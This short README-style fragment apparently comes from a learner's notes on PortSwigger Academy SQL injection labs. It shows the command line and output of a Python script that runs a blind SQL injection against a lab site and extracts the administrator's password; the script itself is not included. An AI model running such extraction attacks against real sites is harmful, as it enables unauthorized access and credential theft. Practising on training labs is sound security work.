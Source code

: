 ## SQL Labs - PortSwigger Academy

#### Blind SQL Injection with Conditional Response Lab
```bash
 $ python3 blind_sql_conditional_response.py https://aca11f2a1e76b68e80af965200bf0092.web-security-academy.net
 Checking users table: True
 Checking Administrator account: True
 Checking password length: 20
 Extracting Admin password: 4iwxwfcbi3r64bnvrb2f
```
